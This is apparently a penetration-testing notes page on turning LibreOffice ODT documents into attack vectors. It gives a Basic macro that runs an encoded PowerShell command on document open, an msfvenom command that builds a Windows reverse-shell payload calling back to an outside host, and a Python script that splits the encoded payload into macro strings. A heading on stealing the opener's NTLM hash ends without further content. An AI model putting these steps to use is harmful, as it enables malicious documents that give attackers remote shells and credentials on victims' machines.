


# ODT Macro (Libreoffice)

## Method 1

Now create an odt file Then add the macro: Tools-> macros->Organise macros-->Basic

<figure><figcaption></figcaption></figure>

Create a macro

<figure><figcaption></figcaption></figure>

```
Sub Main
    Shell("cmd /c powershell -e JABjAGwAaQBlAG4Ad...ABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA")
End Sub
```

\
Then we can configure it to open on document open:

Tools-->Customise:

<figure><figcaption></figcaption></figure>

Now we can upload the file and get a shell:

<figure><figcaption></figcaption></figure>

## Method 2

Use msfvenom for payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.201 LPORT=4444 -f hta-psh -o evil.hta
```

Then split it: **splitter.py**

```
s = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQB..."
n = 50
for i in range(0, len(s), n):
    chunk = s[i:i + n]
    print('Str = Str + "' + chunk + '"')
```

<figure><figcaption></figcaption></figure>

Then use steps from [#method-1](odt-macro-libreoffice.md#method-1 "mention") to make it run on start

## Method 3

We can use this method to get the NTLM hash of the user who opens the .odt file


